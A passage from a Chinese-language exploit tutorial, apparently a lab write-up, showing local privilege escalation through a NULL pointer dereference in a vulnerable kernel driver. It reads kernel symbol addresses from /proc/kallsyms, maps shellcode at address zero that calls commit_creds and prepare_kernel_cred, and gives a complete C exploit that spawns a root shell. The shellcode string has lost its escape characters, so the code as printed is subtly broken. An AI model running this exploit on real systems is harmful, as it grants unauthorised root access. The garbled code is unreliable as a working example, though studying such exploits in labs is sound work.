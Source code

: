 幸运的是，mmap_min_addr保护处于关闭状态。 我们可以在NULL中分配一个小区域，并放置我们的shellcode来提升权限。

现在就可以从“**/proc/kallsyms!**”中获得“prepare_kernel_cred”和“commit_creds”地址。

 [![](https://p0.ssl.qhimg.com/t012f0efe0caf0c6a6f.png)](https://p0.ssl.qhimg.com/t012f0efe0caf0c6a6f.png)

我将使用rasm2做一个shellcode：

 [![](https://p1.ssl.qhimg.com/t01b948b1d1d1b13804.png)](https://p1.ssl.qhimg.com/t01b948b1d1d1b13804.png)

以下是shellcode：

 [![](https://p0.ssl.qhimg.com/t01563450cd1b242d99.png)](https://p0.ssl.qhimg.com/t01563450cd1b242d99.png)

在我们的开发程序中取消指针前，我们就可以开始添加shellcode：



```
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;fcntl.h&gt;
/**/
#define vulnerable_device "/dev/tostring"
/**/
void pop_shell()`{`
system("sh");
`}`
/**/
void main(void)`{`
int fd;
char payload[15];
char shellcode[15] = "x31xc0xe8xe9x11x07xc1xe8x74x0ex07xc1xc3";
/**/
memset(payload, '*', 10);
/**/
payload[10] = 'S';
payload[11] = 0;
/**/
fd = open(vulnerable_device, O_RDWR);
if(fd &lt; 0)`{`
printf("Couldn't open device!");
`}`
write(fd, payload, 12);
/**/
mmap(NULL, sizeof(shellcode), PROT_EXEC |PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS |MAP_FIXED, -1, 0);
memcpy(NULL, shellcode, sizeof(shellcode));
/**/
read(fd, 0, 1);
/**/
pop_shell();
`}`
```

在完成后，开始运行

 [![](https://p2.ssl.qhimg.com/t01ed2da3dfc8e43bb8.png)](https://p2.ssl.qhimg.com/t01ed2da3dfc8e43bb8.png)

以下是root shell

 [![](https://p2.ssl.qhimg.com/t0125c9203546968279.png)](https://p2.ssl.qhimg.com/t0125c9203546968279.png)

希望文章能对大家有所启发和帮助！
